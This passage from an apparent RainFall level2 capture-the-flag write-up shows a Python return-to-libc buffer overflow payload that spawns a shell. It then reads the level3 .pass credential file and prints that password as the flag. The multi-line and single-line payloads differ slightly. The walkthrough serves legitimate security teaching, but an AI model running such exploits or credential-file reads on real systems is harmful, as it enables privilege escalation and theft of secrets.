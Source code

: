 
## 🚀 Execution and Flag Retrieval

Now let's execute our exploit:

```bash
level2@RainFall:~$ (python -c '
import struct

system_addr = 0xb7e6b060
binsh_addr = 0xb7f8cc58
ret_addr = 0x0804854b

payload = "A" * 76
payload += "BBBB"
payload += struct.pack("<I", ret_addr)
payload += struct.pack("<I", system_addr)
payload += struct.pack("<I", ret_addr)
payload += struct.pack("<I", binsh_addr)

print payload
'; cat) | ./level2
```

Single Line:

```bash
(python -c 'import struct; system_addr=0xb7e6b060; binsh_addr=0xb7f8cc58; ret_addr=0x0804854b; payload="A"*80; payload+=struct.pack("<I",ret_addr); payload+=struct.pack("<I",system_addr); payload+=struct.pack("<I",system_addr); payload+=struct.pack("<I",binsh_addr); print(payload)' ; cat) | ./level2

```

### What Happens During Execution:

1. **Payload sent** to vulnerable program
2. **Buffer overflow** occurs, overwriting stack
3. **Return address check** passes (0x0804854b doesn't start with 0xb)
4. **ROP chain executes**:
   - Returns to ret instruction
   - ret pops system() address into EIP
   - system("/bin/sh") executes
5. **Shell spawns** with level3 privileges

### Retrieving the Flag:

```bash
# Now we have a shell as level3 user
ls
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

## 🎉 Success!

**Flag for level3**: `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

To continue to the next level:
```bash
su level3
# Enter password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
